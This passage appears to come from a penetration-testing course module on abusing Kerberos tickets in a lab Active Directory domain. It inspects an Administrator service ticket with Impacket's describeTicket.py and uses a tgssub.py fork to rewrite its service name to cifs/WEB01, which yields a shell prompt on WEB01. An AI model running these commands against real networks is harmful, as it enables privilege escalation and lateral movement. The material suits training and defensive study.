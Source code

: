 Remember that this ticket is intended for `DBSRV003`, so we need to modify this ticket. First let's use [describeTicket.py](https://github.com/fortra/impacket/blob/master/examples/describeTicket.py) from [Impacket](https://github.com/fortra/impacket) to get more details about the ticket:

```shell
describeTicket.py Administrator@[email protected]
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Parsing credential[0]:
[*] Ticket Session Key      : e9c414b4aa5dd770d74e57be1b240e74
[*] User Name          : Administrator
[*] User Realm          : inlanefreight.local
[*] Service Name         : dmserver/DBSRV003
[*] Service Realm        : INLANEFREIGHT.LOCAL
[*] Start Time          : 28/03/2024 17:08:30 PM
[*] End Time           : 29/03/2024 03:08:29 AM
[*] RenewTill          : 29/03/2024 17:08:30 PM
[*] Flags            : (0x40a10000) forwardable, renewable, pre_authent, enc_pa_rep
[*] KeyType           : rc4_hmac
[*] Base64(key)         : 6cQUtKpd13DXTle+GyQOdA==
[*] Kerberoast hash       : $krb5tgs$18$USER$INLANEFREIGHT.LOCAL$*dmserver/DBSRV003*$7a69c3044bfe2a5278758a77$bc69c07921e9f8fc<SNIP>
[*] Decoding unencrypted data in credential[0]['ticket']:
[*] Service Name        : dmserver/DBSRV003
[*] Service Realm       : INLANEFREIGHT.LOCAL
[*] Encryption type      : aes256_cts_hmac_sha1_96 (etype 18)
[-] Could not find the correct encryption key! Ticket is encrypted with aes256_cts_hmac_sha1_96 (etype 18), but no keys/creds were supplied

```

As we can see, `[*] Service Name` is intended for `DBSRV003`. To modify the ticket, we need to use `tgssub.py`. At the time of writing, a [pull request](https://github.com/fortra/impacket/pull/1256) for adding the `tgssub.py` is still pending. We will clone [ShutdownRepo](https://github.com/ShutdownRepo) repository to continue the attack:

```shell
git clone -b tgssub https://github.com/ShutdownRepo/impacket/ tgssub

```

To use `tgssub.py` we need to set the option `-in <ticket_name>` to specify the ticket we want to modify, the option `-altservice "cifs/WEB01"` to replace the SPN of our current ticket, and the option `-out <new_ticket_name>` to save the ticket into a new file:

```shell
proxychains4 -q python3 tgssub/examples/tgssub.py -in Administrator@[email protected] -altservice "cifs/WEB01" -out newticket.ccache
Impacket v0.12.0.dev1+20240327.181547.f8899e65 - Copyright 2023 Fortra

[*] Number of credentials in cache: 1
[*] Changing service from dmserver/[email protected] to cifs/[email protected]
[*] Saving ticket in newticket.ccache

```


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname
